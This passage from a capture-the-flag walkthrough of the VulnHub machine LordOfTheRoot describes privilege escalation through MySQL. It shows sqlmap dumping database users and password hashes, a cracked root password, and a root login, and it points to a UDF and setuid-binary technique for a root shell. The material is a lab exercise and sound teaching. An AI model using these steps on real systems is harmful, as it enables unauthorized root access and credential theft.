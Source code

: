 The machine description on VulnHub stated that there are 2 methods for gaining privilege escalation..and here we are with 2 possible venues of attack! Let's take them in order!

## Privilege escalation method #1 - via MySQL

With MySQL running as root, we can use [a UDF and a setuid binary to gain a root shell](https://infamoussyn.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/). At the core of this exploit is the fact that a User Defined Function can be evaluated as SQL code to run commands in the context of the MySQL process, which is root in this case. As I was reading through the article, it became clear that root credentials would be needed for the database server. So I went back to sqlmap, and this time added the switches <code>--users</code> and <code>--passwords</code>:

``` 
database management system users [5]:
[*] 'debian-sys-maint'@'localhost'
[*] 'root'@'127.0.0.1'
[*] 'root'@'::1'
[*] 'root'@'localhost'
[*] 'root'@'lordoftheroot'

database management system users password hashes:
[*] debian-sys-maint [1]:
    password hash: *A55A9B9049F69BC2768C9284615361DFBD580B34
[*] root [1]:
    password hash: *4DD56158ACDBA81BFE3FF9D3D7375231596CE10F
```

I used an online cracker for the root hash, and the cracked password was *darkshadow*. Then I connected to the MySQL database:

``` 
smeagol@LordOfTheRoot:~$ mysql -u root -p 
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 1829
Server version: 5.5.44-0ubuntu0.14.04.1 (Ubuntu)

Copyright (c) 2000, 2015, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```


Next, I followed the steps of the [infamoussyn article](https://infamoussyn.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/), which are really well explained. UDF files need to be [locally compiled and installed on the server host](https://dev.mysql.com/doc/refman/5.7/en/udf-compiling.html), and a special directory is required for that..
